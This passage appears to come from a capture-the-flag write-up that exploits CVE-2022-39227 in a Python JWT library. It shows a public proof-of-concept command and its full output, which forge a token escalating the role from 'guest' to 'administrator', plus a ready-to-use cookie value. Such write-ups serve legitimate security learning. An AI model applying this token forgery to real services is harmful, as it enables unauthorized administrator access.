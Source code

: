 ```python

            def token_should_not_verify(self, r):
                """ Check the token doesn't verify due to mixed format being detected """
                expect(r).to_be_an_error()
                expect(str(r)).to_equal('invalid JWT format')
```
{% endcode %}

I started to build a custom script but had lots of python package issues and ended up finding a pre-existing [PoC](https://github.com/user0x1337/CVE-2022-39227) instead 😌

{% code overflow="wrap" %}
```bash
python exploit.py -j "eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ.kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw" -i "role=administrator"
[+] Retrieved base64 encoded payload: eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ
[+] Decoded payload: {'exp': 1710085391, 'iat': 1710081791, 'jti': 'beH5fPnzYFYY5CAEWO-ZuA', 'nbf': 1710081791, 'role': 'guest', 'user': 'guest_user'}
[+] Inject new "fake" payload: {'exp': 1710085391, 'iat': 1710081791, 'jti': 'beH5fPnzYFYY5CAEWO-ZuA', 'nbf': 1710081791, 'role': 'administrator', 'user': 'guest_user'}
[+] Fake payload encoded: eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9

[+] New token:
 {"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}

Example (HTTP-Cookie):
------------------------------
auth={"  eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9.eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6ImFkbWluaXN0cmF0b3IiLCJ1c2VyIjoiZ3Vlc3RfdXNlciJ9.":"","protected":"eyJhbGciOiJQUzI1NiIsInR5cCI6IkpXVCJ9", "payload":"eyJleHAiOjE3MTAwODUzOTEsImlhdCI6MTcxMDA4MTc5MSwianRpIjoiYmVINWZQbnpZRllZNUNBRVdPLVp1QSIsIm5iZiI6MTcxMDA4MTc5MSwicm9sZSI6Imd1ZXN0IiwidXNlciI6Imd1ZXN0X3VzZXIifQ","signature":"kwkl8iEwG9TQW3ZAHvAssvlQbjNbwtUPlA06IPV0P6aIQLrhlMWnx5wOp-i4HcZzGCaqq72ib6PconjjHMc1nZonAkebESLL-41P78xgGqiftwyZIzZc9QN2KktcbeapFpkCeDb8CAVMDDEx7eEuuOHgozWgVUzuYUk5pWRJrOfqyAPSHmvN9gm14_DPqRbOFviNq5o8Uw9UFLE8djJM0uDR7LHvKLIiFqikGJ52aHrLNRQqAw927uyPQ_EvH0ldpHi9Y6jkyWuImTK8f43JhxyBJPUOQXnwNaGP9ukf9zWlvYK4ZLp27b41HZFAWBNRMxDdpHUn4ARM__v8h8B9gw"}
```
{% endcode %}
